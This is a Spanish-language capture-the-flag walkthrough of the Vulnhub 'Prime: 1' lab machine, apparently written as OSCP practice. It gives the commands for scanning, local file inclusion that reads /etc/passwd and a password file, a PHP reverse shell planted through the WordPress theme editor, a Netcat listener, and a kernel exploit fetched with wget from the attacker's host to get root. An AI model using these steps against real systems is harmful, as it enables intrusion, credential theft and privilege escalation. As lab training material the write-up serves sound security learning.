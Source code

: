 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=230&height=70&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un parámetro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` da una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/home/saket/password.txt`

![14](https://user-images.githubusercontent.com/75953873/173481656-71110280-511b-4654-823f-1a818ed71a09.png)

**_Credenciales WordPress_**

Usuario: `victor`

Contraseña: `follow_the_ippsec`

URL login: `http://192.168.25.133/wordpress/wp-login.php`

![15](https://user-images.githubusercontent.com/75953873/173482220-0ac1e036-8fea-4224-a696-d31344dd3aa1.png)

- *Paso 5:* Escribir código malicioso PHP.

Apariencia **>** Editor de temas **>** secret.php

![16](https://user-images.githubusercontent.com/75953873/173482698-dbb9561f-e59e-41ef-82d9-8a2152341170.png)

Ruta del código PHP del reverse shell:

```
cat /usr/share/webshells/php/php-reverse-shell.php
```
Cambiar la línea `$ip` por la IP local de su máquina, el puerto lo establecen a `4444`. Guardar cambios **_'Update Files'_**.

![17](https://user-images.githubusercontent.com/75953873/173484877-992337aa-07ec-4e77-9911-3d2012f90cec.png)

- *Paso 6:* Obtener una reverse shell con Netcat.
```
nc -lvp 4444
```

Recargar URL: `http://192.168.25.133/wordpress/wp-content/themes/twentynineteen/secret.php`

![18](https://user-images.githubusercontent.com/75953873/173485293-44576e95-de83-4473-a5f7-bb5a11c5db44.png)

Extraer información de los ficheros `user.txt` y `password.txt` dentro del directorio `/home/saket`:
```
cd home && cd saket && ls 
cat user.txt && cat password.txt
```
![19](https://user-images.githubusercontent.com/75953873/173485677-7abb1021-7e79-4e87-ba5c-20cb4fffc4d2.png)

- *Paso 7:* Escalar privilegios: buscar exploit.

![20](https://user-images.githubusercontent.com/75953873/173485896-7949c037-0d58-4c15-b031-ea2413af4110.png)

Versión del kernel: `4.10.0-28-generic`

![21](https://user-images.githubusercontent.com/75953873/173487947-ee6f8a17-ab97-4f46-93f6-11cf43ed5e7f.png)

Repositorio del código: `https://github.com/kkamagui/linux-kernel-exploits/blob/master/kernel-4.10.0-28-generic/CVE-2017-16995/CVE-2017-16995.c`

Copiar el código y guardarlo con la extensión `kernel.c`.

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![22](https://user-images.githubusercontent.com/75953873/173488228-64eac9ac-e121-49f5-b84b-eea275f526ff.png)

Descargar el exploit en la ruta `/tmp` desde la sesión obtenida (**reverse shell**); compilar y dar permisos de escritrura, lectura y ejecucción.
```
cd /tmp
wget http://192.168.1.9/kernel.c
gcc kernel.c -o kernel
chmod 777 kernel
```
![23](https://user-images.githubusercontent.com/75953873/173488738-0392288d-4024-488b-9295-e4ea89066120.png)

Por último, explotar el kernel `./kernel` y extraer la key (flag) del fichero `root.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat root.txt
```
![24](https://user-images.githubusercontent.com/75953873/173489371-d5c4398b-a2a6-4222-89c0-07be64091c03.png)

**KEY:** b2b17036da1de94cfb024540a8e7075a

Artículo Hack_X_Crack: https://hackxcrack.net/foro/hacking/ctf-prime_1-(resuelto)-preparacion-oscp/
